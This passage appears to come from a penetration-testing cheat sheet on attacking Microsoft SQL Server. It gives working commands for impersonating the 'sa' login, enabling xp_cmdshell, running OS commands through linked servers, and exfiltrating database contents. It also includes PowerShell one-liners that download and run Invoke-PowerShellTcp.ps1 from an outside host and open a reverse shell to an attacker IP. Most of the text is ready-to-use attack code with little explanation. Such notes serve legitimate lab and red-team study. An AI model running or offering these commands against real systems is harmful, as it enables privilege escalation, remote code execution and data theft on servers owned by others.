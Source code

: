 #### Impersonate a user
- Might be possible to impersonate user a and then user b and then sa!
```
-- Verify you are still running as the normal user login
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
-- Impersonate the sa login
EXECUTE AS LOGIN = 'sa'
-- Verify you are now running as the sa login
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
```

#### Enable and run xp_cmdshell
```
-- Enable show options
EXEC sp_configure 'show advanced options',1
RECONFIGURE
GO
-- Enable xp_cmdshell
EXEC sp_configure 'xp_cmdshell',1
RECONFIGURE
GO
-- Quickly check what the service account is via xp_cmdshell
EXEC master..xp_cmdshell 'whoami'
```

### Command execution
#### Execute commands
```
Get-SQLServerLinkCrawl -Instance <SQL INSTANCE> -Query "exec master..xp_cmdshell 'whoami'"
Invoke-SQLOSCmd -Instance <SQL INSTANCE> -Verbose -Command "Whoami" -Threads 10
```

#### Execute command through links
```
select * from openquery("192.168.23.25",'select * from openquery("db-sqlsrv",''select @@version as version;exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''''http://192.168.100.X/Invoke-PowerShellTcp.ps1'''')"'')')
```

#### Execute reverse shell example
```
Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query "exec master..xp_cmdshell 'Powershell.exe iex (iwr http://xx.xx.xx.xx/Invoke-PowerShellTcp.ps1 -UseBasicParsing);reverse -Reverse -IPAddress xx.xx.xx.xx -Port 4000'"
```

### Data exfiltration
```
#When able to connect directy to the instance
Get-SQLDatabase
Get-SQLTable
Get-SQLColumn
Get-SQLQuery -Query "use <DATABASE>; SELECT * from <TABLE>"

#Through links
List databases
Get-SQLServerLinkCrawl -Instance <INSTANCE> -Query 'SELECT name FROM master..sysdatabases;' | Where-Object customquery | Select-Object instance, customquery -ExpandProperty customquery | Select-Object instance, name

List tables
Get-SQLServerLinkCrawl -Instance <INSTANCE> -QueryTarget AC-DBBUSINESS -Query "SELECT name FROM <DATABASE>..sysobjects WHERE xtype = 'U'" | Select-Object -ExpandProperty customquery
```